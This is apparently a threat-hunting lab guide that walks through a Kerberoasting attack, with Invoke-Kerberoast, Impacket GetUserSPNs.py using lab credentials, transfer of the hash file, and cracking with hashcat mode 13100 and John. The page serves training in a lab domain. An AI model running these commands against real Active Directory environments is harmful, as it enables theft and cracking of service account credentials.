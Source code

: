 # Chapter 2.4.1 - The Attack 

on windows 
====

choco install -y python3  
python -m pip install --upgrade pip

in powershell:  

```code
[Environment]::SetEnvironmentVariable("Path", "$env:Path;C:\Python38")
```

pip install updog

Powershell : 

```code
cd C:\terraform\threathunt\labs\4_KERBEROAST
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

default output is for john

Open the file "hashcapture.txt" with Notepad++  
In the menu select "Encoding" and set it to "Encode in UTF-8" 
Save the file and the BOM will be gone.

start updog in the folder where you saved hashcapture.txt

on Kali hashcat / John
====

cd ~
wget http:\\10.0.0.x\hashcapture.txt

```
testadmin@AZ-KALI:~$ file hashcapture.txt 
hashcapture.txt: ASCII text, with very long lines, with CRLF line terminators
```

cat hashcapture.txt | tr -d " \t\n\r" > hash_clean.txt

hashcat -m13100 -a 0 hash_clean.txt Top1m.txt --force --potfile-disable


IMPACKET PYTHON
====

./GetUserSPNs.py acme.local/testadmin:Password1234! -o spns.txt -request -dc-ip 10.0.0.4

john --wordlist=Top1m.txt spns.txt

On your MAC or a local Kali Linux
====

Cracking hashes with hashcat is typically done on dedicated hardware - in this lab hashcat won't work on your Kali Linux machine in Azure. Hashcat is tricky when it comes to drivers and memory/cpu requirements.

You can give it a go on your own OS by installing Hashcat, below is the simplest way of doing this on MacOS - the performace won't be great, but it's enough to show the principle of password cracking.

```code 
brew install hashcat  
hashcat -m 13100 -O -a 0 hashes.txt Top1m.txt --force --potfile-disable --self-test-disable
```

|   |   |
|---|---|
|-O | switch to optimized OpenCL kernels|  
|-a | 0 = dictionary |
|   | 6 = brute force |
|-m | 13100 = Kerberos TGS-REP   |

![Screenshot command](./assets/03-hashcat.jpg)